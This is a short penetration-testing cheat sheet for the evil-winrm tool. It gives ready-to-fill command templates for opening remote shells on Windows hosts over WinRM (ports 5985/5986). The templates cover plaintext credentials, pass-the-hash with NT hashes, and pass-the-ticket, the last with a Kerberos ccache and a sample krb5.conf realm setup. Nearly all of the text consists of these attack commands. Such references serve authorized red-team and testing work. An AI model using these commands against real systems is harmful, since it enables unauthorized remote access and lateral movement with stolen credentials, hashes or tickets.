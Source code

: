 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## local account with creds
```bash
evil-winrm -i <ip> -u <user> -p <password>
```
## domain account with creds
```bash
evil-winrm -i <ip> -u '<domain_fqdn>\<user>' -p <password>
```

## local account pth
```bash
evil-winrm -i <ip> -u <user> -H <nt_hash>
```

## domain account pth
```bash
evil-winrm -i <ip> -u '<domain_fqdn>\<user>' -H <nt_hash>
```

## pass the ticket
add realm /etc/krb5.conf
[libdefaults]
        rdns=false
[realms]
CONTOSO.COM = {
             kdc = fooserver.contoso.com
 }
```bash
export KRB5CCNAME=<ccache> && evil-winrm -i <target_fqdn>  --realm <domain_fqdn>
```